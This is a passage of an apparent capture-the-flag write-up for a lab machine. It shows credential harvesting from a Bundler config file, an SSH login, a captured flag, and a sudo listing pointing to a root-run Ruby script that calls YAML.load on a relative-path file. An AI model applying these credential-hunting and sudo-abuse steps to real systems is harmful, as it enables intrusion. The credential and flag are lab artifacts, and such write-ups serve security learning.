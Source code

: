 ## Privilege Escalation

Inside the home folder, we find:

```shell
ruby@precious:~/.bundle$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Enter via `ssh` to have a better terminal and get the flag.

```shell
henry@precious:~$ cat user.txt
cat user.txt
8c5dfcdde2b268f08f1e93f81bbf74bb
```

`henry` can execute as `sudo` a `ruby` script to update dependencies:

```shell
henry@precious:~$ sudo -l
sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

```shell
henry@precious:~$ cat /opt/update_dependencies.rb
cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
